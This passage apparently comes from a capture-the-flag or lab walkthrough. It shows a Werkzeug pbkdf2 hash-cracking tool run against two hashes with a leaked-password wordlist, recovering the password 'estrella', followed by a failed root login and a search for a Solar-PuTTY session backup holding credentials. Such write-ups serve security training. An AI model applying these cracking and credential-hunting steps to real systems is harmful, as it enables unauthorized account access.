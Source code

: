 ```
git clone https://github.com/AnataarXVI/Werkzeug-Cracker
```

Create a virtual environment and install the script dependencies.

```
python3 -m venv venv
source venv/bin/activate
pip3 install -r requirements.txt
```

We will write both hashes in different files in order to crack them.

```
echo 'pbkdf2:sha256:600000$I5bFyb0ZzD69pNX8$e9e4ea5c280e0766612295ab9bff32e5fa1de8f6cbb6586fab7ab7bc762bd978' > hash.txt
echo 'pbkdf2:sha256:600000$YnRgjnim$c9541a8c6ad40bc064979bc446025041ffac9af2f762726971d8a28272c550ed' > hash2.txt
```

Try to crack the first one.

```
python werkzeug_cracker.py -p hash.txt -w /usr/share/seclists/Passwords/Leaked-Databases/rockyou-25.txt
Cracking pbkdf2:sha256:600000$I5bFyb0ZzD69pNX8$e9e4ea5c280e0766612295ab9bff32e5fa1de8f6cbb6586fab7ab7bc762bd978 |████████████████████████████████| 929/929
```

We have not found the password with this wordlist. Let's try with the second one.

```
python werkzeug_cracker.py -p hash2.txt -w /usr/share/seclists/Passwords/Leaked-Databases/rockyou-25.txt
Cracking pbkdf2:sha256:600000$YnRgjnim$c9541a8c6ad40bc064979bc446025041ffac9af2f762726971d8a28272c550ed |████                            | 113/929
Password found: estrella
```

The unhashed password is "estrella". Let's try to log in as root with this password.

```
su root
Password: estrella

su: Authentication failure
```

It have not worked, however we will write down this password for the future.

Inspectnig the `/opt` directory we find a `sessions-backup.dat` file.

```
ls /opt/backups/Solar-PuTTY

sessions-backup.dat
```

This file is a backup of a `Solar-Putty` session, which usually contains credentials.
